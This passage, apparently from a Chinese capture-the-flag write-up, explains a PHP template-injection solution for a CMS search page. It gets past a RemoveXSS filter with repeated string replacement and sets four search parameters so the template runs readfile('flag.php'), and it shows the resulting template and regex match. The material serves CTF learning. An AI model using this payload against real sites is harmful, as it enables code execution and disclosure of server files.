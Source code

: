 然后看到template.html，搜索searchword和searchnum

```
&lt;h4&gt;&lt;span class="glyphicon glyphicon-film sea-text"&gt;&lt;/span&gt; &lt;a href="#"&gt;`{`haha:searchword`}` &lt;/a&gt; &lt;small&gt;共有&lt;span class="sea-text"&gt;`{`haha:searchnum`}`&lt;/span&gt;个影片 第&lt;span class="sea-text"&gt;`{`searchlist:page`}`&lt;/span&gt;页&lt;/small&gt;&lt;/h4&gt;
```

最后再看看RemoveXSS

发现 if:,

解题思路：

首先利用四次的strreplace绕过RemoveXss,控制$templatehtml

然后是绕过判断和正则：`{`if:开头、`{`end if`}`结尾，然后真正执行的命令要在rule匹配到的第一个（.*?）

破题：

```
$searchnum=`{`end if`}`

$searchword=`{`if`{`haha:type`}`

$type=:read`{`haha:typename`}`

$typename=file(%27flag.php%27)`}`
```

这样content被替换为

```
&lt;h4&gt;&lt;span class="glyphicon glyphicon-film sea-text"&gt;&lt;/span&gt; &lt;a href="#"&gt;`{`if:readfile(%27flag.php%27)`}`&lt;/a&gt; &lt;small&gt;共有&lt;span class="sea-text"&gt;`{`end if`}`&lt;/span&gt;个影片 第&lt;span class="sea-text"&gt;`{`searchlist:page`}`&lt;/span&gt;页&lt;/small&gt;&lt;/h4&gt;
```

正则过后$iar为

```
Array
(
    [0] =&gt; Array
        (
            [0] =&gt; `{`if:readfile(%27flag.php%27)`}`&lt;/a&gt; &lt;small&gt;共有&lt;span class="sea-text"&gt;`{`end if`}`
        )

    [1] =&gt; Array
        (
            [0] =&gt; readfile(%27flag.php%27)
        )

    [2] =&gt; Array
        (
            [0] =&gt; &lt;/a&gt; &lt;small&gt;共有&lt;span class="sea-text"&gt;
        )
)
```
